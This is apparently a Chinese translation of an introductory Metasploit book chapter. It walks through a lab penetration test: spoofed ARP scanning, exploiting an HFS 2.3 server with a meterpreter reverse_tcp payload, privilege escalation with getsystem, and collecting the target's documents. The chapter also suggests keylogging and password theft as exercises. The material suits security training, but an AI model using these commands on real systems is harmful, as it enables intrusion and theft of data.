




# 第一章：开始使用 Metasploit

“百分之百的安全”将长期保持神话

* - Anupam Tiwari*

渗透测试是对网络、Web 应用程序、服务器或任何需要从安全角度进行彻底检查的设备进行有意的攻击的艺术。渗透测试的理念是在模拟真实世界的威胁的同时发现漏洞。渗透测试旨在发现系统中的漏洞和弱点，以使易受攻击的系统能够免受威胁和恶意活动的影响。

在渗透测试中取得成功很大程度上取决于使用正确的工具和技术。渗透测试人员必须选择正确的工具和方法来完成测试。在谈论渗透测试的最佳工具时，首先想到的是 Metasploit。它被认为是今天进行渗透测试的最实用工具之一。Metasploit 提供了各种各样的利用、出色的利用开发环境、信息收集和 Web 测试能力等等。

本章将帮助您了解渗透测试和 Metasploit 的基础知识，这将帮助您适应本书的节奏。

在本章中，您将执行以下操作：

+   了解在渗透测试的不同阶段使用 Metasploit

+   遵循与 Metasploit 相关的基本命令和服务

+   了解 Metasploit 的架构并快速查看库

+   使用数据库进行渗透测试管理

在本书的过程中，我将假设您对渗透测试有基本的了解，并且对 Linux 和 Windows 操作系统至少有一些了解。

在我们转向 Metasploit 之前，让我们首先建立我们的基本测试环境。本章需要两个操作系统：

+   Kali Linux

+   Windows Server 2012 R2 与**Rejetto HTTP 文件服务器**（**HFS**）2.3 服务器

因此，让我们快速设置我们的环境，并开始 Metasploit 的柔道。

# 在虚拟环境中设置 Kali Linux

在与 Metasploit 交互之前，我们需要一个测试实验室。建立测试实验室的最佳方法是收集不同的机器并在它们上安装不同的操作系统。但是，如果我们只有一台计算机，最好的方法是建立一个虚拟环境。

虚拟化在今天的渗透测试中扮演着重要角色。由于硬件成本高昂，虚拟化在渗透测试中起到了成本效益的作用。在主机操作系统下模拟不同的操作系统不仅可以节省成本，还可以节省电力和空间。建立虚拟渗透测试实验室可以防止对实际主机系统进行任何修改，并允许我们在隔离的环境中进行操作。虚拟网络允许网络利用在隔离的网络上运行，从而防止对主机系统的任何修改或使用网络硬件。

此外，虚拟化的快照功能有助于在特定时间间隔内保留虚拟机的状态。因此，快照被证明非常有用，因为我们可以在测试虚拟环境时比较或重新加载操作系统的先前状态，而无需重新安装整个软件，以防攻击模拟后文件修改。

虚拟化期望主机系统具有足够的硬件资源，如 RAM、处理能力、驱动器空间等，以确保平稳运行。

有关快照的更多信息，请参阅[`www.virtualbox.org/manual/ch01.html#snapshots`](https://www.virtualbox.org/manual/ch01.html#snapshots)。

因此，让我们看看如何使用 Kali 操作系统（最受欢迎的渗透测试操作系统，默认包含 Metasploit Framework）创建虚拟环境。

要创建虚拟环境，我们需要虚拟仿真器软件。我们可以使用两种最流行的软件之一，VirtualBox 和 VMware Player。因此，让我们通过执行以下步骤开始安装：

1.  下载 VirtualBox ([`www.virtualbox.org/wiki/Downloads`](http://www.virtualbox.org/wiki/Downloads))，并根据您的机器架构进行设置。

1.  运行设置并完成安装。

1.  现在，在安装后，按照以下截图显示的方式运行 VirtualBox 程序：


1.  现在，要安装新的操作系统，请选择 New。

1.  在名称字段中输入适当的名称，并选择操作系统类型和版本，如下所示：

+   对于 Kali Linux，根据您的系统架构选择类型为 Linux 和版本为 Linux 2.6/3.x/4.x(64 位)

+   这可能看起来类似于以下截图所示的内容：



1.  选择要分配的系统内存量，通常为 1GB 用于 Kali Linux。

1.  下一步是创建一个虚拟磁盘，作为虚拟操作系统的硬盘。创建动态分配的磁盘。选择此选项将仅消耗足够的空间来容纳虚拟操作系统，而不是消耗主机系统的整个物理硬盘的大块空间。

1.  下一步是为磁盘分配空间；通常情况下，20-30GB 的空间就足够了。

1.  现在，继续创建磁盘，并在查看摘要后，点击创建。

1.  现在，点击开始运行。第一次运行时，将弹出一个窗口，显示启动磁盘的选择过程。通过浏览硬盘上 Kali OS 的`.iso`文件的系统路径后，点击开始进行处理。这个过程可能看起来类似于以下截图所示的内容：


您可以在 Live 模式下运行 Kali Linux，或者选择图形安装以进行持久安装，如下截图所示：


Kali Linux 的完整持久安装指南，请参考[`docs.kali.org/category/installation`](http://docs.kali.org/category/installation)。

要在 Windows 上安装 Metasploit，请参考[`community.rapid7.com/servlet/JiveServlet/downloadBody/2099-102-11-6553/windows-installation-guide.pdf`](https://community.rapid7.com/servlet/JiveServlet/downloadBody/2099-102-11-6553/windows-installation-guide.pdf)的优秀指南。

# Metasploit 的基础知识

现在我们已经完成了 Kali Linux 的设置，让我们来谈谈大局：Metasploit。Metasploit 是一个安全项目，提供了大量的利用和侦察功能，以帮助渗透测试人员。Metasploit 是由 H.D. Moore 于 2003 年创建的，自那时以来，其快速发展使其成为最受欢迎的渗透测试工具之一。Metasploit 完全由 Ruby 驱动，并提供大量的利用、有效载荷、编码技术和大量的后渗透功能。

Metasploit 有各种版本，如下所示：

+   **Metasploit Pro**：这个版本是商业版，提供了大量出色的功能，如 Web 应用程序扫描和利用以及自动利用，非常适合专业的渗透测试人员和 IT 安全团队。Pro 版用于高级渗透测试和企业安全项目。

+   **Metasploit Express**：用于基线渗透测试。此版本的 Metasploit 功能包括智能利用、自动暴力破解凭据等。这个版本非常适合中小型公司的 IT 安全团队。

+   **Metasploit 社区**：这是一个免费版本，与 Express 版本相比功能有所减少。然而，对于学生和小型企业来说，这个版本是一个不错的选择。

+   **Metasploit Framework**：这是一个命令行版本，包括所有手动任务，如手动利用、第三方导入等。这个版本完全适合开发人员和安全研究人员。

您可以从以下链接下载 Metasploit：

[`www.rapid7.com/products/metasploit/download/editions/`](https://www.rapid7.com/products/metasploit/download/editions/)

在本书中，我们将使用 Metasploit 社区和框架版本。Metasploit 还提供各种类型的用户界面，如下所示：

+   **图形用户界面**（**GUI**）**界面**：这个界面提供了点击按钮即可使用的所有选项。这个界面提供了一个用户友好的界面，有助于提供更清晰的漏洞管理。

+   **控制台界面**：这是最受欢迎的界面，也是最流行的界面。这个界面提供了 Metasploit 提供的所有选项的一体化方法。这个界面也被认为是最稳定的界面。在本书中，我们将最常使用控制台界面。

+   **命令行界面**：这是更强大的界面，支持启动利用活动，如有效载荷生成。然而，在使用命令行界面时记住每个命令是一项困难的工作。

+   **Armitage**：Raphael Mudge 的 Armitage 为 Metasploit 添加了一个整洁的黑客风格的 GUI 界面。Armitage 提供了易于使用的漏洞管理、内置 NMAP 扫描、利用建议以及使用 Cortana 脚本语言自动化功能的能力。本书的后半部分专门介绍了 Armitage 和 Cortana。

有关 Metasploit 社区的更多信息，请参阅[ ](https://community.rapid7.com/community/metasploit/blog/2011/12/21/metaspl%20oit-tutorial-an-introduction-to-metasploit-community)[`community.rapid7.com/community/metasploit/blog`](https://community.rapid7.com/community/metasploit/blog)。

# Metasploit Framework 基础知识

在我们开始使用 Metasploit Framework 之前，让我们了解 Metasploit 中使用的基本术语。然而，以下模块不仅仅是术语，而是 Metasploit 项目的核心和灵魂：

+   **Exploit**：这是一段代码，当执行时，将触发目标的漏洞。

+   **Payload**：这是在成功利用后在目标上运行的代码。它定义了我们需要在目标系统上获得的访问类型和操作。

+   **Auxiliary**：这些是提供额外功能的模块，如扫描、模糊测试、嗅探等。

+   **Encoder**：这些用于混淆模块，以避免被防病毒软件或防火墙等保护机制检测到。

+   **Meterpreter**：这是一个使用基于 DLL 注入的内存级分段器的有效载荷。它提供了各种在目标上执行的功能，使其成为一个受欢迎的选择。

# Metasploit 的架构

Metasploit 包括各种组件，如广泛的库、模块、插件和工具。Metasploit 结构的图解如下：


让我们看看这些组件是什么，以及它们是如何工作的。最好从作为 Metasploit 核心的库开始。

让我们了解各种库的用途，如下表所述：

| 库名称 | 用途 |
| --- | --- |
| REX | 处理几乎所有核心功能，如设置套接字、连接、格式化和所有其他原始功能。 |
| MSF CORE | 提供了描述框架的底层 API 和实际核心。 |
| MSF BASE | 提供友好的 API 支持模块。 |

Metasploit 有许多类型的模块，它们在功能上有所不同。我们有用于创建对被利用系统的访问通道的 payload 模块。我们有辅助模块来执行诸如信息收集、指纹识别、对应用程序进行 fuzzing 和登录到各种服务等操作。让我们来看一下这些模块的基本功能，如下表所示：

| 模块类型 | 工作 |
| --- | --- |
| **Payloads** | Payloads 用于在利用后连接到或从目标系统执行操作，或执行特定任务，如安装服务等。在成功利用系统后，Payload 执行是下一步。广泛使用的 meterpreter shell 是标准的 Metasploit payload。 |
| **Auxiliary** | 辅助模块是一种执行特定任务的特殊模块，如信息收集、数据库指纹识别、扫描网络以查找特定服务和枚举等。 |
| **Encoders** | 编码器用于对 payloads 和攻击向量进行编码（或打算）以规避杀毒软件或防火墙的检测。 |
| **NOPs** | NOP 生成器用于对齐，从而使 exploits 更加稳定。 |
| **Exploits** | 触发漏洞的实际代码。 |

# Metasploit 框架控制台和命令

了解 Metasploit 的架构知识，现在让我们运行 Metasploit 以获得对命令和不同模块的实际知识。要启动 Metasploit，我们首先需要建立数据库连接，以便我们所做的一切都可以记录到数据库中。但是，使用数据库还可以通过为所有模块使用缓存和索引来加快 Metasploit 的加载时间。因此，让我们通过在终端中输入以下命令来启动`postgresql`服务：

```
root@beast:~# service postgresql start

```

现在，为了初始化 Metasploit 的数据库，让我们按照以下截图初始化`msfdb`：


在前面的截图中清楚地看到，我们已成功为 Metasploit 创建了初始数据库模式。现在让我们使用以下命令启动 Metasploit 数据库：

```
root@beast:~# msfdb start

```

我们现在准备启动 Metasploit。让我们在终端中输入`msfconsole`来启动 Metasploit，如下截图所示：



欢迎来到 Metasploit 控制台。让我们运行`help`命令，看看还有哪些其他命令可用：



前面截图中的命令是核心 Metasploit 命令，用于设置/获取变量、加载插件、路由流量、取消设置变量、打印版本、查找已发出命令的历史记录等。这些命令非常通用。让我们看一下基于模块的命令，如下所示：


与 Metasploit 中特定模块相关的所有内容都包含在帮助菜单的模块控制部分。使用上述命令，我们可以选择特定模块，从特定路径加载模块，获取有关模块的信息，显示与模块相关的核心和高级选项，甚至可以在线编辑模块。让我们学习一些 Metasploit 的基本命令，并熟悉这些命令的语法和语义：

| **Command** | **Usage** | **Example** |
| --- | --- | --- |
| `use` [auxiliary/exploit/payload/encoder] | 选择特定的模块开始工作。 |

```
msf>use
exploit/unix/ftp/vsftpd_234_backdoor
msf>use auxiliary/scanner/portscan/tcp 

```

|

| `show` [exploits/payloads/encoder/auxiliary/options] | 查看特定类型的可用模块列表。 |
| --- | --- |

```
msf>show payloads
msf> show options        

```

|

| `set` [options/payload] | 为特定对象设置值。 |
| --- | --- |

```
msf>set payload windows/meterpreter/reverse_tcp
msf>set LHOST 192.168.10.118
msf> set RHOST 192.168.10.112
msf> set LPORT 4444
msf> set RPORT 8080        

```

|

| `setg` [options/payload] | 全局分配值给特定对象，因此在打开模块时值不会改变。 |
| --- | --- |

```
msf>setg RHOST   192.168.10.112       

```

|

| `run` | 在设置所有必需选项后启动辅助模块。 |
| --- | --- |

```
msf>run      

```

|

| `exploit` | 启动 exploit。 |
| --- | --- |

```
msf>exploit      

```

|

| `back` | 取消选择模块并返回。 |
| --- | --- |

```
msf(ms08_067_netapi)>back
msf>        

```

|

| `Info` | 列出与特定 exploit/module/auxiliary 相关的信息。 |
| --- | --- |

```
msf>info exploit/windows/smb/ms08_067_netapi
msf(ms08_067_netapi)>info        

```

|

| `Search` | 查找特定的模块。 |
| --- | --- |

```
msf>search hfs

```

|

| `check` | 检查特定目标是否容易受到利用。 |
| --- | --- |

```
msf>check

```

|

| `Sessions` | 列出可用的会话。 |
| --- | --- |

```
msf>sessions [session   number]

```

|

| **Meterpreter 命令** | **用法** | **示例** |
| --- | --- | --- |
| `sysinfo` | 列出受损主机的系统信息。 |

```
meterpreter>sysinfo    

```

|

| `ifconfig` | 列出受损主机上的网络接口。 |
| --- | --- |

```
meterpreter>ifconfig  
meterpreter>ipconfig (Windows)

```

|

| `Arp` | 列出连接到目标的主机的 IP 和 MAC 地址。 |
| --- | --- |

```
meterpreter>arp

```

|

| `background` | 将活动会话发送到后台。 |
| --- | --- |

```
meterpreter>background

```

|

| `shell` | 在目标上放置一个 cmd shell。 |
| --- | --- |

```
meterpreter>shell     

```

|

| `getuid` | 获取当前用户的详细信息。 |
| --- | --- |

```
meterpreter>getuid        

```

|

| `getsystem` | 提升权限并获得系统访问权限。 |
| --- | --- |

```
meterpreter>getsystem       

```

|

| `getpid` | 获取 meterpreter 访问的进程 ID。 |
| --- | --- |

```
meterpreter>getpid        

```

|

| `ps` | 列出目标上运行的所有进程。 |
| --- | --- |

```
meterpreter>ps

```

|

如果您是第一次使用 Metasploit，请参考[`www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands`](http://www.offensive-security.com/metasploit-unleashed/Msfconsole_Commands)获取有关基本命令的更多信息。

# 使用 Metasploit 的好处

在我们进行示例渗透测试之前，我们必须知道为什么我们更喜欢 Metasploit 而不是手动利用技术。这是因为它具有类似黑客的终端，给人一种专业的外观，还是有其他原因？与传统的手动技术相比，Metasploit 是一个很好的选择，因为有一些因素，如下所示：

+   Metasploit 框架是开源的

+   Metasploit 通过使用 CIDR 标识符支持大型测试网络

+   Metasploit 可以快速生成可更改或即时切换的有效载荷

+   在大多数情况下，Metasploit 会使目标系统保持稳定

+   GUI 环境提供了进行渗透测试的快速和用户友好的方式

# 使用 Metasploit 进行渗透测试

在了解 Metasploit 框架的基本命令之后，让我们现在使用 Metasploit 模拟一个真实的渗透测试。在接下来的部分中，我们将仅使用 Metasploit 来覆盖渗透测试的所有阶段，除了预交互阶段，这是一个通过会议、问卷调查等方式收集客户需求并了解他们期望的一般阶段。

# 假设和测试设置

在即将进行的练习中，我们假设我们的系统通过以太网或 Wi-Fi 连接到目标网络。目标操作系统是运行在端口 80 上的 Windows Server 2012 R2，同时在端口 8080 上运行 HFS 2.3 服务器。我们将在这个练习中使用 Kali Linux 操作系统。

# 第一阶段：足迹和扫描

足迹和扫描是在预交互之后的第一个阶段，根据测试方法的类型（黑盒、白盒或灰盒），足迹阶段将有很大的不同。在黑盒测试场景中，我们将针对一切进行测试，因为没有给出目标的先验知识，而在白盒方法中，我们将执行专注的应用程序和架构特定的测试。灰盒测试将结合两种方法的优点。我们将遵循黑盒方法。因此，让我们启动 Metasploit 并运行基本扫描。然而，让我们向 Metasploit 添加一个新的工作空间。添加一个新的工作空间将使扫描数据与数据库中的其他扫描数据分开，并将有助于以更轻松和更可管理的方式找到结果。要添加一个新的工作空间，只需输入`workspace -a` [新工作空间的名称]，要切换到新工作空间的上下文，只需输入`workspace`，然后输入工作空间的名称，如下面的屏幕截图所示：


在前面的截图中，我们可以看到我们添加了一个新的工作区`NetworkVAPT`并切换到它。现在让我们快速扫描网络，检查所有活动的主机。由于我们与目标处于同一网络上，我们可以使用`auxiliary/scanner/discovery/arp_sweep`模块执行 ARP 扫描，如下截图所示：



我们选择一个模块来使用`use`命令启动。`show options`命令将显示模块正常工作所需的所有必要选项。我们使用`set`关键字设置所有选项。在前面的插图中，我们通过将`SMAC`和`SHOST`设置为原始 IP 地址以外的任何内容来伪造我们的 MAC 和 IP 地址。我们使用了`192.168.10.1`，看起来类似于路由器的基本 IP 地址。因此，通过 ARP 扫描生成的所有数据包看起来都像是由路由器产生的。让我们运行模块，并通过分析 Wireshark 中的流量来检查我们的说法有多少有效，如下截图所示：


在前面的截图中，我们可以清楚地看到我们的数据包是从我们用于该模块的 MAC 和 IP 地址伪造出来的：

```
msf auxiliary(arp_sweep) > run
192.168.10.111 appears to be up.
Scanned 256 of 256 hosts (100% complete)
Auxiliary module execution completed
msf auxiliary(arp_sweep) >

```

从获得的结果中，我们有一个 IP 地址似乎是活动的，即`192.168.10.111`让我们对`192.168.10.111`执行 TCP 扫描，并检查哪些端口是打开的。我们可以使用`auxiliary/scanner/portscan/tcp`中的 portscan 模块执行 TCP 扫描，如下截图所示：


接下来，我们将`RHOSTS`设置为 IP 地址`192.168.10.111`。我们还可以通过使用大量线程和设置并发性来加快扫描速度，如下截图所示：


在扫描期间，建议对所有发现的开放端口进行横幅抓取。但是，我们将在此示例中专注于基于 HTTP 的端口。让我们使用`auxiliary/scanner/http/http_version`模块找到运行在`80`、`8080`上的 Web 服务器类型，如下截图所示：


我们使用`use`命令加载`http_version`扫描器模块，并将`RHOSTS`设置为`192.168.10.111`。首先，我们通过将`RPORT`设置为`80`来扫描端口`80`，结果显示为 IIS/8.5，然后我们运行端口`8080`的模块，显示该端口正在运行 HFS 2.3 web 服务器。

# 第二阶段：获取目标访问权限

完成扫描阶段后，我们知道有一个单独的 IP 地址，即

`192.168.10.111`，运行 HFS 2.3 文件服务器和 IIS 8.5 web 服务。

您必须确定所有开放端口上运行的所有服务。我们只关注基于 HTTP 的服务，仅作为示例。

IIS 8.5 服务器并不知道有任何严重的漏洞可能导致整个系统被攻破。因此，让我们尝试找到 HFS 服务器的漏洞。Metasploit 提供了`search`命令来在模块内搜索。让我们找到一个匹配的模块：


我们可以看到，通过发出`search HFS`命令，Metasploit 找到了两个匹配的模块。我们可以简单地跳过第一个，因为它与 HFS 服务器不对应。让我们使用第二个，如前面的截图所示。接下来，我们只需要为漏洞利用模块设置一些以下选项以及有效负载：


让我们将`RHOST`的值设置为`192.168.10.111`，`RPORT`设置为`8080`，`payload`设置为`windows/meterpreter/reverse_tcp`，`SRVHOST`设置为我们系统的 IP 地址，`LHOST`设置为我们系统的 IP 地址。设置好这些值后，我们可以发出`exploit`命令将漏洞利用发送到目标，如下截图所示：


是的！一个 meterpreter 会话已经打开！我们已成功访问了目标机器。由于`ParserLib.pas`文件中的正则表达式不好，HFS 易受远程命令执行攻击的影响，利用模块通过使用`%00`来绕过过滤来利用 HFS 脚本命令。

# 第三阶段：维持访问/后期利用/覆盖踪迹

在执法行业，保持对目标的访问或在启动时保留后门是一个非常重要的领域。我们将在接下来的章节中讨论高级持久性机制。然而，当涉及专业渗透测试时，后期利用往往比维持访问更重要。后期利用从被利用系统中收集重要信息，破解管理员帐户的哈希值，窃取凭据，收集用户令牌，通过利用本地系统漏洞获得特权访问，下载和上传文件，查看进程和应用程序等等。

让我们执行一些快速的后期利用攻击和脚本：


运行一些快速的后期利用命令，比如`getuid`，将找到被利用进程的所有者，我们的情况下是管理员。我们还可以通过发出`getpid`命令来查看被利用进程的进程 ID。最令人期待的后期利用功能之一是在需要深入网络时找出 ARP 详细信息。在 meterpreter 中，您可以通过发出`arp`命令来找到 ARP 详细信息，如前面的截图所示。

如果被利用进程的所有者是具有管理员权限的用户，则可以使用`getsystem`命令将权限级别提升到系统级别。

接下来，让我们从目标中收集文件。然而，我们不是在谈论一般的单个文件搜索和下载。让我们使用`file_collector`后期利用模块做一些与众不同的事情。我们可以在目标上扫描特定类型的文件，并自动将它们下载到我们的系统，如下面的截图所示：


在前面的截图中，我们对受损系统的`Users`目录进行了扫描（通过提供一个带有目录路径的`-d`开关），以扫描所有扩展名为`.doc`和`.pptx`的文件（使用一个带有搜索表达式的`-f`过滤开关）。我们使用了一个`-r`开关进行递归搜索，`-o`用于将找到的文件路径输出到`files`文件中。我们可以在输出中看到我们有两个文件。此外，搜索表达式`*.doc|*.pptx`表示所有扩展名为`.doc`或`.pptx`的文件，`|`是或运算符。

让我们通过发出命令来下载找到的文件，如下面的截图所示：


我们刚刚提供了一个`-i`开关，后面跟着文件`files`，其中包含目标所有文件的完整路径。然而，我们还提供了一个`-l`开关，以指定文件将被下载到我们系统的目录。从前面的截图中可以看到，我们成功将所有文件从目标下载到了我们的机器上。

在专业的渗透测试环境中掩盖您的踪迹可能不太合适，因为大多数蓝队使用渗透测试生成的日志来识别问题和模式，或编写 IDS/IPS 签名。

# 总结和练习

在本章中，我们学习了 Metasploit 的基础知识和渗透测试的阶段。我们了解了`Metasploit`命令的各种语法和语义。我们看到了如何初始化数据库。我们使用 Metasploit 进行了基本扫描，并成功利用了扫描到的服务。此外，我们还看到了一些基本的后期利用模块，这些模块有助于从目标中收集重要信息。

如果您正确地跟随了，这一章已经成功地为您准备好回答以下问题：

+   Metasploit 框架是什么？

+   如何使用 Metasploit 进行端口扫描？

+   如何使用 Metasploit 进行横幅抓取？

+   Metasploit 如何用于利用易受攻击的软件？

+   什么是后渗透，如何使用 Metasploit 进行后渗透？

为了进一步自主练习，您可以尝试以下练习：

1.  在 Metasploit 中找到一个可以对运行在 21 端口的服务进行指纹识别的模块。

1.  尝试运行后渗透模块进行键盘记录、拍摄屏幕照片和获取其他用户密码。

1.  下载并运行 Metasploitable 2 并利用 FTP 模块。

在第二章中，《识别和扫描目标》，我们将深入了解 Metasploit 的扫描功能。我们将研究各种类型的服务进行扫描，还将研究如何定制已有的模块进行服务扫描。
